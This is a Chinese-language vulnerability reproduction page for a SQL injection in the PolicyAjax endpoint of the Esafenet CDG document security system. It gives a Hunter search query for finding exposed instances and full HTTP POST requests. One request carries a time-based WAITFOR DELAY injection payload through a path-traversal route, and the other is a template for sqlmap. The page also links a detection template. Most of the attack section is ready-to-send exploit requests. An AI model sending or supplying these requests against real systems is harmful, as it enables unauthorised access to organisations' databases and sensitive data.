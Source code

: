 # 亿赛通电子文档安全管理系统PolicyAjax存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统PolicyAjax存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/f3AbW-RS96XvK7XY/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-693103.png)

# 四、漏洞复现
```plain
POST /CDGServer3/dojojs/../PolicyAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 64
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Upgrade-Insecure-Requests: 1

command=selectOption&id=1';WAITFOR DELAY '0:0:5'--&type=JMCL
```

![1706531531789-5d3e4e10-b8a8-43a3-bca6-fffb757ac467.png](./img/f3AbW-RS96XvK7XY/1706531531789-5d3e4e10-b8a8-43a3-bca6-fffb757ac467-654309.png)

sqlmap

```plain
POST /CDGServer3/dojojs/../PolicyAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 64
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Upgrade-Insecure-Requests: 1

command=selectOption&id=1&type=JMCL
```

![1706531565480-674887a2-8ef1-4fc3-ad2c-5ed7a84ec96c.png](./img/f3AbW-RS96XvK7XY/1706531565480-674887a2-8ef1-4fc3-ad2c-5ed7a84ec96c-451959.png)

[亿赛通电子文档安全管理系统-policyajax-sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713621695239-0f1784ad-ca08-49f2-8175-88860849d9db.yaml)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gh6izxum78ql1255>